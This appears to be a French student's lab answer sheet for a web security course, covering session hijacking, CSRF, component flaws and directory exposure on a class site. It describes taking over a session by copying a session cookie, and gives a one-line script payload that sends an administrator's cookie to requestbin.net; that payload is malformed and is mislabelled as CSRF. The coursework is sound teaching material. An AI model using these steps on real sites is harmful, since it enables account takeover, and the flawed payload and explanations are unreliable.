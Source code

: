 #### 4. **Violation de gestion de session**

   * [x]  Connectez-vous au site sur un navigateur avec un utilisateur X, puis tentez d’accéder à la session en cours de cet utilisateur X depuis un autre navigateur, sans avoir recours au login et mot de passe.

   * [x] Décrivez les étapes par lesquelles vous êtes passé pour arriver à ce résultat.

      1. Besoin de garder deux comptes en ligne en même temps

      2. Utiliser la fenêtre de navigateur privé

      3. Copiez l'ID de session dans le cookie de l'utilisateur A, puis utilisez l’inspecte de Chrome pour modifier le cookie sur la page d'accueil de l'utilisateur B, puis mettez-le à jour.

         <img src="https://i.imgur.com/h6DUjEp.png" alt="Imgur" style="zoom: 50%;" />

   * [ ]  Observez ce qui se passe si des actions sont réalisées dans les deux navigateurs en parallèle. Qu’en déduisez-vous ?

      ça veut dire quoi?

#### 5. **Falsification de requête (CSRF)**

   * [x] Donnez une fonctionnalité du site susceptible d’être la cible d’une attaque CSRF

     Les victimes peuvent être des administrateurs de site web.Le pirate peut voler le mot de passe de l’admin en envoyant du code malveillant dans la formulaire de message. Une fois que l'administrateur se connecte pour regarder le message, son cookie va être automatiquement transféré vers le pirate.

   * [x] Proposez un moyen par lequel réaliser une telle attaque

     http://requestbin.net/ —— un site web pour récupérer la réponse lorsque l'admin se connecte.

     ```javascript
     <script>document.write("<img src=url.concat(document.cookie).concat("/>"))</script>
     ```

#### 6. **Vulnérabilité d'un composant**

   Notre site présente-t-il des vulnérabilités particulières au niveau de ses composants (serveur web, SGBD, etc....) ?

Il doit utiliser quelque outils qui permet d'analyser

phpmyadmin en production est fortement déconseillé, car c'est un outils trop puissant qui peux vite mal tourner s'il tombe entre de mauvaise main.

#### 7. **Chiffrement des données sensibles**

   Quelles sont les vulnérabilités de notre site en relation avec le chiffrement des données sensibles ?

#### 8. **Accès aux répertoires par http**

   Donnez un exemple de problème que peut causer la possibilité d’accès aux répertoires par http dans le cas de notre exemple sr03p20.
